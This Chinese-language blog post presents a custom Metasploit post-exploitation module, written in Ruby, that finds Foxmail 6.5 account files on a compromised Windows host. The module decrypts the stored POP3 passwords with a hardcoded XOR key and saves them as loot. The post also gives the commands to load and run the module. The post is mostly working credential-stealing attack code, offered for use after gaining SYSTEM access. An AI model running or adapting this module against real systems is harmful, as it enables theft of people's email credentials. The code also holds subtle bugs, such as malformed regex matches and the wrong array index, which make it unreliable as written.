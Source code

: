 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit自定义收集登录凭证的后渗透模块
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit自定义收集登录凭证的后渗透模块
lock: need
---
```


# Metasploit自定义收集登录凭证的后渗透模块

这里，我们以攻击Foxmail 6.5为例，将尝试对登录凭证进行解密，然后将它保存到数据库。

**注意：运行这个脚本的前提是我们已经经过一系列的渗透拿下了目标Windows系统的System权限。**

这里，我们编写脚本foxmail_decrypt_by_binghe.rb，内容如下：

```
##
# Author 冰河
# Date 2019-01-13
# Description 对foxmail 6.5的登录凭证进行解密
#
# 实现过程如下：
# 1.搜索用户的文件，查找当前用户的LocalAppData文件夹的准确位置
# 2.使用上面找到的文职，并将其与\VirtualStore\Program Files(x86)\Tencent\Foxmail\mail连接，建立一个mail文件夹的完整路径
# 3.列出mail文件夹下的所有文件夹，并将它们都保存到一个数组中。在mail文件夹中的每一个文件夹的名字都对应着一个邮箱用户名，比如binghe@formail.com就可以是mail文件夹下的一个文件夹
# 4.在mail文件夹下的accounts文件中查找Account.stg文件
# 5.通过读取Account.stg文件，会发现名为POP3Password的哈希
# 6.将这个值传递给解密方法，然后就会得到明文密码
# 7.将这些值保存到数据库
##

require 'msf/core'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  include Msf::Post::File
  include Msf::Auxiliary::Report
  include Msf::Post::Windows::UserProfiles
  
  def initialize(info={})
    super(update_info(info,
      'Name'          => 'Foxmail 6.5 Credential Harvester',
      'Description'   => %q{
          This module Finds and Decrypts Stored Foxmail 6.5 Credentials
       },
       'License'      => MSF_LICENSE,
       'Author'       => ['binghe'],
       'Platform'     => ['Windows'],
       'SessionTypes' => ['Meterpreter']
    ))
    end
    
    #程序入口
    def run
      profile = grap_user_profiles()
      counter = 0
      data_entry = ""
      profile.each do |user|
        if user['LocalAppData']
          full_path = user['LocalAppData']
          full_path = full_path + "\\VirtualStore\\Program Files(x86)\\Tencent\\Foxmail\\mail"
          if directory?(full_path)
            print_good("Fox Mail Installed, Enumerating Mail Accounts")
            session.fs.dir.foreach(full_path) do |dir_list|
            if dir_list = ~/@/
              counter = counter + 1
              full_path_mail = full_path + "" + dir_list + "" + "Account.stg"
              if file?(full_path_mail)
                print_good("Reading Mail Account #{counter}")
                file_content = read_file(full_path_mail).split("\n")
                file_content.each do |hash|
                if hash = ~/POP3Password/
                  hash_data = hash.split("=")
                  hash_value = hash[1]
                  if hash_value.nil?
                    print_error("No Saved Password")
                  else
                    print_good("Decrypting Password for mail account: #{dir_list}")
                    #调用解密方法进行解密
                    decrypted_pass = decrypt(hash_value, dir_list)
                    data_entry << "Username:" + dir_list + "\t" + "Password:" + decrypted_pass + "\n"
                  end
                 end
                end
               end
              end
             end
            end
           end
          end
          store_loot("Foxmail Accounts", "text/plain", session, data_entry, "Fox.txt", "Fox Mail Accounts") 
      end  
      
      #解密方法
      def decrypt(hash_real, dir_list)
        decoded = ""
        magic = Array[126,100,114,97,71,111,110,126]
        fc0 = 90
        size = (hash_real.length) / 2 - 1
        index = 0
        b = Array.new(size)
        for i in 0 .. size do
         b[i] = (hash_real[index, 2]).hex
         index = index + 2
        end
        b[0] = b[0] ^ fc0
        double_magic = magic + magic
        d = Array.new(b.length - 1)
        for i in 1 .. b.length - 1 do
          d[i-1] = b[i] ^ double_magic[i - 1]
        end
        
        e = Array.new(d.length)
        for i in 0 .. (d.length -1)
          if(d[i] - b[i] < 0)
            e[i] = d[i] + 255 - b[i]
           else
            e[i] = d[i] - b[i]
           end
           decoded << e[i].chr
         end
         print_good("Found Username #{dir_list} with Password: #{decoded}")
         return decoded
       end
end
```

然后我们将foxmail_decrypt_by_binghe.rb脚本上传到Kali的/usr/share/metasploit-framework/modules/post/windows/gather/credentials目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/post/windows/gather/credentials/foxmail_decrypt_by_binghe.rb
```

未输出任何信息，证明脚本正确。

接下来，我们的Kali命令行，执行如下命令：

```
meterpreter > background
msf > set SESSION 1
msf > use post/windows/gather/credentials/foxmail_decrypt_by_binghe 
msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > show options

Module options (post/windows/gather/credentials/foxmail_decrypt_by_binghe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > run
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
